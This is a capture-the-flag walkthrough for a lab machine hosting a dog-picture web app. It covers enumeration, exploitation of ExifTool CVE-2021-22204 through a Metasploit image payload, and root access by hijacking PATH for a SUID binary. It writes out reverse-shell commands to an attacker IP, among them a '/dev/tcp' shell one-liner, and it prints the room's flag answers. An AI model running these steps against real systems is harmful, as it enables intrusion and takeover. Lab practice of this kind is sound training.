

# Deja Vu



## Task 2 Dog Pictures - Exploring a webapp

```bash
nmap -n -Pn -sV -sC 10.10.126.107
```


#### Click around the website. Can you find any developer comments?


#### Can you find the page that gives more details about a dog photo?


#### Perform an Nmap scan of the target. What version of SSH is in use?


`OpenSSH 8.0 (protocol 2.0)`


## Task 3 Vulnerability Discovery

#### What page can be used to upload your own dog picture?

```bash
gobuster dir -u http://10.10.126.107/ 
             -w /usr/share/dirb/wordlists/big.txt \
             -t64
```



`/upload/`


#### What API route is used to provide the Title and Caption for a specific dog image?



`/dog/getmetadata`


#### What API route does the application use to retrieve further information about the dog picture?



`/dog/getexifdata`


#### What attribute in the JSON response from this endpoint specifies the version of ExifTool being used by the webapp?


`ExifToolVersion`


#### What version of ExifTool is in use?


`12.23`


#### What RCE exploit is present in this version of ExifTool?

```bash
msfconsole
msf > search exiftool
msf > use 0
msf > info
```



`CVE-2021-22204`


## Task 4 Exploitation

#### Generate an image payload with Metasploit

```bash
msf > setg LHOST 10.6.9.176
msf > run
```


```bash
exiftool /home/kali/.msf4/local/msf.jpg
cp /home/kali/.msf4/local/msf.jpg .
```


#### Get code execution on the target machine


```bash
nc -nvlp 4444
bash -i
cat /home/dogpics/user.txt
```


#### Retrieve the flag located in /home/dogpics/user.txt. What is the user flag?


`dejavu{735c0553063625f41879e57d5b4f3352}`


## Task 5 Privilege Escalation - Enumeration and PATH Exploitation

#### Stabilise your reverse shell to ensure that you can run interactive binaries

#### Find the SUID binary

```bash
ls -la
cat serverManager.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {   
    setuid(0);
    setgid(0);
    printf(
        "Welcome to the DogPics server manager Version 1.0\n"
        "Please enter a choice:\n");
    int operation = 0;
    printf(
        "0 -\tGet server status\n"
        "1 -\tRestart server\n");
    while (operation < 48 || operation > 49) {
        operation = getchar();
        getchar();
        if (operation < 48 || operation > 49) {
            printf("Invalid choice.\n");
        }
    }
    operation = operation - 48;
    //printf("Choice was:\t%d\n",operation);
    switch (operation) {
    case 0:
        //printf("0\n");
        system("systemctl status --no-pager dogpics");
        break;
    case 1:
        system("systemctl restart dogpics");
        break;
    default:
        break;
    }
}
```

#### Verify that the serverManager program runs systemctl when you run it.

```bash
systemctl status dogpics --no-pager
```


#### Create your fake systemctl, ensure it's correctly added to PATH, and escalate your privileges.

```bash
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' > systemctl
chmod +x systemctl
PATH=/home/dogpics:$PATH ./serverManager
```


#### Retrieve the root flag from /root/root.txt. What is the root flag?

```bash
nc -nvlp 4445
bash -i
cat /root/root.txt
```



`dejavu{5ad931368bdc46f856febe4834ace627}`


## Xmind


